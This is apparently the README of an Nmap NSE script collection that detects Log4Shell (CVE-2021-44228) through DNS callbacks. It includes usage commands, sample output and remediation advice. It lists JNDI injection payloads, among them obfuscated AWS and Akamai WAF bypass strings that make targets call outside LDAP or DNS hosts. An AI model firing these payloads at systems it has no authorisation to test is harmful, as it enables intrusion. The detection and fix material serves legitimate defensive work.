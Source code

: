 # nse-log4shell

Nmap NSE scripts to check against log4shell or LogJam vulnerabilities (CVE-2021-44228).
NSE scripts check most popular exposed services on the Internet. It is basic script where you can customize payload.


### Examples

Note that NSE scripts will only issue the requests to the services. Nmap will not report vulnerable hosts, but you have to check DNS logs to determine vulnerability. If you do not specify payload manually, NSE scripts will use dnslog.cn by default. That means requests will be seen by dnslog.cn.

## Quick with help of dnslog.cn

Position to directory where these scripts are located and issue following commands (Nmap will retrieve dnslog.cn automatically).

On Linux:
```
cd nse-log4shell
nmap -sV -T4 -v --script=$PWD/ scanme.nmap.org
```

On Windows:
```
cd nse-log4shell
nmap -sV -T4 -v --script=%cd%/ scanme.nmap.org
```

## Payloads to consider

new patch bypass on v2.15.0 (CVE-2021-45046), thanks to @marcioalm ([tweet](https://twitter.com/marcioalm/status/1471740771581652995)):
```
${jndi:ldap://127.0.0.1#{{target}}.xxx.dnslog.cn:1389/a}
```

AWS bypass (thanks to @11xuxx - [tweet](https://twitter.com/11xuxx/status/1471826191724257285)):
```
${jnd${123%25ff:-${123%25ff:-i:}}ldap://mydogsbutt.com:1389/o}
```

Akamai bypass (thanks to @ozgur_bbh - [tweet](https://twitter.com/ozgur_bbh/status/1471803792572223493)):
```
${jndi${123%25ff:-}:ldap://HOST:PORT/a}
```

## Manual configuration

Windows Example (Thanks to @ZedFuzz) - note how to [escape the quotes](https://nmap.org/book/nse-usage.html#nse-args):
```
nmap -v --script=http-log4shell,ssh-log4shell,imap-log4shell "--script-args=log4shell.payload=\"${jndi:ldap://{{target}}.xxxx.dnslog.cn}\"" -T4 -n --script-timeout=1m scanme.nmap.org
```

### By help of logdns (custom DNS logging server)

Go to http://github.com/kost/logdns and get DNS server. Get domain and point to the somewhere where you have installed logdns:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.logdns.xxx}"' -T4 -n -p0-65535 -sV --script-timeout=1m MY.IPs.TO.SCAN
```
### By help of dnslog.cn

Go to http://dnslog.cn/ and Get SubDomain. Replace your xxxx with your SubDomain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.dnslog.cn}"' -T4 -n -p0-65535 -sV --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of burpcollaborator

Take your domain from Burp collaborator and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.burpcollaborator.net/diverto}"' -T4 -n -p0-65535 -sV --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of CanaryToken (https://canarytokens.org/generate#)

Take your Token from CanaryToken and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://x${hostName}.L4J.xxxx.canarytokens.com/a}"' -T4 -n -pssh,imap*,http* --script-timeout=1m MY.IPs.TO.SCAN
```

Thanks to @saintz666

## Recommended way

dnslog.cn have short sessions (around half an hour). There should be way to prolong the sesion to how long the scan takes. Also, sometimes DNS query happens much later than request received. Someone reported got DNS request hours after the request has been made.
As workaround, nmap NSE scripts retrieve session after each host scanned.

Therefore, currently, for best assurance it is to use custom DNS domain with tool like logdns:
https://github.com/kost/logdns

## Sample Output

```
nmap -T4 -v --script=$PWD/ scanme.nmap.org
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-15 12:37 CET
NSE: Loaded 5 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:37
Completed NSE at 12:37, 0.53s elapsed
Pre-scan script results:
| dnslog-cn:
|   Domain: 2t722h.dnslog.cn
|_  Manually retrieve: curl --cookie "PHPSESSID=ss356ko502lsbftbl49d3g0777" http://dnslog.cn/getrecords.php
Initiating Ping Scan at 12:37
Scanning scanme.nmap.org (45.33.32.156) [2 ports]
Completed Ping Scan at 12:37, 0.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:37
Completed Parallel DNS resolution of 1 host. at 12:37, 1.18s elapsed
Initiating Connect Scan at 12:37
Scanning scanme.nmap.org (45.33.32.156) [1000 ports]
Discovered open port 80/tcp on 45.33.32.156
Discovered open port 53/tcp on 45.33.32.156
Discovered open port 22/tcp on 45.33.32.156
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.00% done; ETC: 12:37 (0:00:16 remaining)
Discovered open port 9929/tcp on 45.33.32.156
Discovered open port 31337/tcp on 45.33.32.156
Completed Connect Scan at 12:37, 37.06s elapsed (1000 total ports)
NSE: Script scanning 45.33.32.156.
Initiating NSE at 12:37
Completed NSE at 12:37, 6.19s elapsed
Nmap scan report for scanme.nmap.org (45.33.32.156)
Host is up (0.18s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
9929/tcp  open  nping-echo
31337/tcp open  Elite

Host script results:
| dnslog-cn:
|   List of hosts responded: []
|   Manually retrieve: curl --cookie "PHPSESSID=ss356ko502lsbftbl49d3g0777" http://dnslog.cn/getrecords.php
|_  If list is not empty, check hosts as they are potentially vulnerable

NSE: Script Post-scanning.
Initiating NSE at 12:37
Completed NSE at 12:37, 0.50s elapsed
Post-scan script results:
| dnslog-cn:
|   List of hosts responded: []
|   Manually retrieve: curl --cookie "PHPSESSID=ss356ko502lsbftbl49d3g0777" http://dnslog.cn/getrecords.php
|_  If list is not empty, check hosts as they are potentially vulnerable
Read data files from: /usr/local/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 46.11 seconds
```

# Solution/Fixes

List of best fixes and workarounds.

## Best fix

Best solution to protect from CVE-2021-44228:
update to log4j-2.16.0 or later.

Note that log4j-2.15.0-rc1 is not recomended any more since new vulnerabilities were found. Therefore, you should update to log4j-2.16.0 or later (thanks @ruppde).

Also, note that other recommendations like log4j2.formatMsgNoLookups set to true should be avoided.

## Best identification

It is best to identify log4shell vulnerability by looking at the local filesystem for log4j artifacts.

These NSE scripts should be used only for additional assurance. NSEs help in identifying vulnerable services, not vulnerable application. It can identify vulnerable application if it logs every request (including root /), not if vulnerability is hidden behind some login. You will need web scanner which crawls complete web for that.

You can check specific URI with following example:
```http-log4shell.url=/my/application/uri```

It will check via HTTP headers and cookie. If you need to check post/get forms. You should check http-spider-log4shell. Still, it is best to use web scanner with support for log4j.

Also note that DNS resolution with prefixes combination in a expression for log4j-core <= 2.7 seems not supported. So, testing with something like ```${java:os}``` could lead to false negatives.
Therefore, better to have few false positives than negatives.



